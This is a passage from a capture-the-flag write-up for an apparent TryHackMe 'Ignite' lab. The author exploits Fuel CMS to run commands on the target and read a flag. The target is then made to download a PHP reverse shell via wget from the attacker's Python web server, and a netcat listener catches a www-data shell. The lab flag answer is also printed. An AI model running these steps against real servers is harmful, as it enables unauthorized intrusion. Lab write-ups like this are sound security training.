 ```bash

Enter Command $cat /home/www-data/flag.txt
system
6470e394cbf6dab6a91682cc8585059b

```

Answer: `6470e394cbf6dab6a91682cc8585059b`

### What is the root flag? 

I think it is time to get proper access here. We get to use our `php-reverse-shell`. But we have to deliver it different.. 

We create a `webserver` via `python` and make sure, that our `php-reverse-shell` is in the directory.

```bash


┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/ignite]
└─$ python3 -m http.server 5678
Serving HTTP on 0.0.0.0 port 5678 (http://0.0.0.0:5678/) ...
```

Now we can access from the target and `download` the reverse shell via `wget`:

```bash

┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/ignite]
└─$ python3 explort_fuelcms.py -u "http://10.10.143.13"
[+]Connecting...
Enter Command $wget "http://10.11.110.106:5678/php-reverse-shell.php"
┗━(Run: “touch ~/.hushlogin” to hide this message)


```

Now the script is downloaded and before we "activate" it we have to listen to connection via `netcat`.

Lets open the website `10.10.143.13/php-reverse-shell.php`:


```bash

┌──(admin㉿PREDATOR-01)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.110.106] from (UNKNOWN) [10.10.143.13] 33030
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:32:37 up 53 min,  0 users,  load average: 1.09, 1.04, 0.85
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
